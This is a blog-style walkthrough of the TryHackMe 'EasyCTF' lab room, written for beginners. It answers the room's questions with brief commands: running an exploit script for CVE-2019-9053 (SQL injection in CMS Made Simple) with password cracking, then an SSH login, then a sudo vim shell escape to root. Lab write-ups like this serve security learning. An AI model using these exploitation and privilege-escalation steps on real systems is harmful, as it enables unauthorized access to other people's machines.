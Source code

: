 ```yaml
---
title: Write-up — EasyCTF
date: 2025-06-29 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf, Easy]
image: 'assets/img/articles/EasyCTF.png'
description: The "EasyCTF" room on TryHackMe is designed as a beginner-friendly Capture The Flag (CTF) challenge. It is an excellent starting point for individuals who are new to CTFs and penetration testing.
---
```


> Walkthrough of room EasyCTF from TryHackMe :
> [https://tryhackme.com/room/easyctf](https://tryhackme.com/room/easyctf)

The room covers fundamental skills necessary for CTFs, including **scanning** and **enumeration**, research, **exploitation**, and **privilege escalation**. This makes it a great introduction to the basics of cybersecurity and ethical hacking.

---

### How many services are running under port 1000?

2 services running, **ftp** and **http**.

### What is running on the higher port?

SSH on port 2222.

### What's the CVE you're using against the application?

CMS Made simple version 2.2.8 -> **CVE-2019-9053**

### To what kind of vulnerability is the application vulnerable?

SQLi (https://www.exploit-db.com/exploits/46635)

### What's the password?

```bash
./exploit.py -u http://$TARGET/simple/ -c -w /usr/share/wordlists/rockyou.txt

[+] Salt found: 1dac0d92e9fa6bb2
[+] Username found: *****
[+] Email found: admin@admin.com
[+] Password hash found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: ******
```

`-c` for enabling cracking.

### Where can you login with the details obtained?

Through `ssh` on port 2222.

### What's the user flag?

The user flag can be retrieve by doing:

```bash
cat user.txt
```

### Is there any other user in the home directory? What's its name?

```bash
ls ..
mitch  sunbath
```

The other user is **`sunbath`**.

### What can you leverage to spawn a privileged shell?

```bash
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

By abusing **vim** privilege misconfiguration.

### What's the root flag?

```bash
sudo vim -c ':!/bin/zsh'

# Hit Enter

:r!cat /root/root.txt
```


All flags down, mission passed.

![](https://media1.tenor.com/m/lQBJJmatxPYAAAAd/mission-accomplished-penguins.gif)

Be proud of what you’ve accomplished.

See you soon!

> “You can’t have privacy without good security. Anyone saying otherwise is delusional.”

> ― Dr. Larry Ponemon, Founder, Ponemon Institute

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>

